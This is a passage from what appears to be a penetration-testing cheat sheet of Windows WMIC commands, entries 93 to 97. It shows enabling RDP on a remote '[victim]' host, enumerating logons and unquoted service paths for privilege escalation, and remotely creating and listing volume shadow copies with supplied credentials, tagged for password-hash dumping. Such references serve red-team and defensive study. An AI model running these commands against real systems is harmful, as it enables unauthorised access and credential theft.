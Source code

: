 https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 93. enble rdp on remote host
```
wmic /node:"[victim]" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"
```
**- Windows,configuration**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 94. How many times has someone logged in
```
wmic netlogin where (name like "%[user]%") get numberoflogons
```
**- enumeration,user information,Windows**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 95. unquoted service path search add node for remote sys
```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\windows\\" | findstr /i /v """
```
**- enumeration,Windows,privilege escalation**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 96. List volume shadow copies
```
wmic /node:[victim] /user:"[domain]\[user]" /password:[pass] process call create "cmd /c vssadmin list shadows 2 &1 >> c:\temp\vss.txt"
```
**- Windows,hashes**
#### References:

https://yg.ht
https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 97. create volume shadow copy for c
```
wmic /node:[victim] /User:[domain]\[user]" /password:[pass] process call create "cmd /c vssadmin create shadow /for=C: 2 &1 >> C:\temp\create_vss.txt"
```
**- Windows,hashes**
#### References:
